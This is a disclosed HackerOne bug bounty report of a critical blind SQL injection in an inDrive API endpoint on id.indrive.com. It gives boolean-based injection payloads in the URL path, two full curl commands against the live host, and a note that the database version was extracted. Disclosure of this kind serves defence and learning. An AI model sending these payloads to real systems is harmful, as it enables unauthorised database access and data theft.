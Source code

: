 # Blind SQL injection on id.indrive.com

## Report Details
- **Report ID**: 2051931
- **URL**: https://hackerone.com/reports/2051931
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2023-07-06T06:47:53.690Z
- **Disclosed**: 2023-11-24T14:37:55.035Z

## Reporter
- **Username**: kristoferent
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:
The server does not perform sanitization on user input, allowing an attacker to inject arbitrary SQL commands into a query.

## Steps To Reproduce:

  1. Go to https://promo.indrive.com/10ridestogetprize_ru/random
  2. Click "Сгенерировать". A request to https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/29/5/phone will be made:

████████
 3. Repeat this request, but change the path to: 
```
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=1--
```
A random entry from the database will be returned:

████
  4. Change the path in a query to:
```
/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--
```
The response from the server will be empty:

███████

**Both requests in curl format**
```
curl -i -s -k -X $'GET' \
    -H $'Host: id.indrive.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json, text/plain, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Origin: https://promo.indrive.com' -H $'Referer: https://promo.indrive.com/' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-site' -H $'Te: trailers' -H $'Connection: close' \
    $'https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=1--'
```
```
curl -i -s -k -X $'GET' \
    -H $'Host: id.indrive.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json, text/plain, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Origin: https://promo.indrive.com' -H $'Referer: https://promo.indrive.com/' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-site' -H $'Te: trailers' -H $'Connection: close' \
    $'https://id.indrive.com/api/ten-drives/custom-winners/ten_drive_kz_second_weeks/number_trips/1/999%20or%201=2--'
```

## Impact

This vulnerability allows attackers to inject any SQL statements into a query.
For example, I was able to retrieve the SQL version:
**PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1)**

## Attachments
No attachments
